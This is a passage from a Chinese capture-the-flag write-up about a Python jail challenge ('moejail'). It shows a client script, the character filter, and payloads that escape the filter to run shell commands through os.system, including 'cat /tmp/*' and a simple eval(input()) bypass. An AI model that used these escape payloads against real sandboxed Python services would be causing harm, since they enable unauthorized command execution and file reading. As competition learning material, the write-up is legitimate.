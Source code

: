 ```python title="moejail.py"
    conn.sendline(command.encode())
    while True:
        try:
            received = conn.recv(4096).decode()
            if not received:
                break
            print(received, end="")
        except EOFError:
            break


commands = []
commands.append("")  # 依据需要添加指令

for com in commands:
    send_receive(com)

# 关闭连接
conn.close()
```

我们只需要修改 port 和 commands 即可。

> if re.search(r'["\'0-8bd]|[^\x00-\xff]', code): print("Nope")

比赛时我写的命令非常丑陋：

```python
# ls
commands.append(
    "__import__(list(type({})(os=9))[False]).system(list(type({})(ls=9))[False])"
)
# ls /tmp
# commands.append(
#     "__import__(list(type({})(os=9))[False]).system(list(type({})(ls=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+list(type({})(tmp=9))[False])"
# )
# # cat /tmp/*
# commands.append(
#     "__import__(list(type({})(os=9))[False]).system(list(type({})(cat=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+list(type({})(tmp=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])])))"
# )
```

分三次执行了这三条 python 命令，居然也过了。

后来发现有简单地多的：

```python
commands.append("eval(input())")

commands.append("__import__('os').system('cat /tmp/*')")
```


[^1]: 你都写 misc 了，会点 pwn 怎么了（）